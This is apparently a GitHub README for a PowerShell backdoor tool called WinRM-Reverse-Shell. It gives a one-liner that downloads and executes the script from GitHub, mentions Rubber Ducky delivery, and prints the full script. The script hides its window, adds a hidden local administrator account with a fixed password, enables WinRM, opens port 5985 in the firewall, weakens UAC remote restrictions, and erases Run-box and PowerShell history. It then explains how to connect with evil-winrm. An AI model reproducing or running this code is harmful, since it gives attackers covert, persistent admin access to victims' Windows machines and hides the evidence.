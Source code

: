 # WinRM-Reverse-Shell

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload
### The payload is in this repo aswel 
+ Edit your own speed of the payload
+ You can change to URL to your own 

# Script into pieces
## Function to hide a window
function Hide-Window {
    param(
        [IntPtr]$Handle = (Get-Process -PID $PID).MainWindowHandle
    )
    Add-Type @"
    using System;
    using System.Runtime.InteropServices;

    public class Window {
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetConsoleWindow();
    }
"@
    [void][Window]::ShowWindow($Handle, 0)
}

## Hide the current PowerShell window
Hide-Window

## Create a new local user account
$Username = "Admin"
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Delete run box history
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -Force

## Delete powershell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script
